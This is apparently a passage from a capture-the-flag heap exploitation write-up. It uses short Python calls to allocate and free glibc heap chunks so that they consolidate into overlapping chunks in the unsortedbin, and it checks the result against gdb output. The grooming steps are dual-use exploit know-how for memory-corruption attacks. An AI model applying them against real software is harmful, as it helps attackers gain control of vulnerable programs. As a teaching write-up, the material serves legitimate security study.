 We wanna setup our heap in such a way that we can free a fake chunk creating overlapping chunks. As we will se later this will allow us to control first and only freed chunk in the unsortedbin. With the python script bellow we will setup chunks as seen in the picture above.

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, b"C"*0x80)
create(15, 0x511, b"D"*0x80)
```

Now we delete the red chunks and keep anything else as it is, this will first put `A` into unsortedbin and when freeing `B` consolidate `A` and `B` into one chunk and change nothing in unsortedbin.

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, b"C"*0x80)
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)
```
Here we use the `kept` option to keep a refrence to chunk at `mem[1]`.

Let have a look in gdb. As we see in the picture below we have a single chunk in the unsortedbin `0x405250` and it clearly overlaps the pointer stored in `mem[1]`.

| ![gdb output 1](imgs/gdb_out1.png) |
|:--:|